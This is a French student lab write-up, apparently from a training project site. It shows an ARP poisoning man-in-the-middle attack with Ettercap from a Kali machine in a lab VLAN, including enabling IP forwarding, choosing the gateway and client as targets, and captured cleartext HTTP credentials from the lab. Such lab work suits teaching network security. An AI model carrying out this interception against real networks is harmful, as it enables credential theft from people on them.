

repository: WALID163/Projet-de-professionnalisation · page: CUB-BLOC2-Activité3-ExploitServ-ARPPoissoning/index.html · generator: mkdocs

# CONTEXTE CUB — BLOC 2 – Activité 2 - Port mirroring


## Table des matières

- [Scénario : Attaque par ARP Poisoning](#scénario--attaque-par-arp-poisoning)
  1. [Définir les 2 hôtes qui seront victimes de l'attaque](#1-définir-les-2-hôtes-qui-seront-victimes-de-lattaque)
  2. [Réalisation de l'attaque ARP Poisoning via Ettercap](#2-réalisation-de-lattaque-arp-poisoning-via-ettercap)

---

## Scénario : Attaque par ARP Poisoning

### 1. Définir les 2 hôtes qui seront victimes de l'attaque

L'ARP poisoning est une des attaques possibles via le MITM (*Man in the Middle*, ou Homme du milieu) dont le but est de se placer entre les cibles.

Dans notre cas, notre Kali est dans un VLAN donc les cibles seront le client qui tente d'atteindre le serveur et la passerelle, car le serveur est sur un autre VLAN donc le client passera forcément par elle.

### 2. Réalisation de l'attaque ARP Poisoning via Ettercap

D'abord, pour pouvoir réaliser l'attaque, on active le routage sur la machine Kali pour pouvoir rediriger les paquets vers les cibles.

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

> On agira seulement comme une machine qui forward, sans rien arrêter.

Puis on lance Ettercap :

```
ettercap-pkexec
```

Depuis Ettercap graphique, lancer le programme puis ouvrir la liste des hôtes et réaliser un scan des hôtes présents sur le VLAN.

| IP Address | MAC Address | Description |
|---|---|---|
| 192.168.2.199 | D8:43:AE:E3:C2:F0 | |
| 192.168.2.200 | D8:43:AE:E3:C2:F4 | |
| 192.168.2.202 | 08:00:27:6E:AA:12 | |
| 192.168.2.205 | 00:1A:A2:6B:C2:C1 | |
| 192.168.2.206 | A4:11:BB:DC:6D:D6 | |

Ajouter les cibles/targets :

- **Target 1** : la passerelle
- **Target 2** : le client

Enfin, sur le menu **MITM**, lancer l'**ARP Poisoning**.

Attendre que la cible se connecte et s'identifie :

```
GROUP 1 : 192.168.2.206  A4:11:BB:DC:6D:D6
GROUP 2 : 192.168.2.200  D8:43:AE:E3:C2:F4

HTTP : 192.36.2.21:80 -> USER: etudiant  PASS: etudiant_007  INFO: scanner1.barcelone.cub.sioplc.fr/
HTTP : 192.36.2.21:80 -> USER: etudiant  PASS: etudiant_007  INFO: scanner1.barcelone.cub.sioplc.fr/favicon.ico
```

On retrouve les credentials et où ils se trouvent.
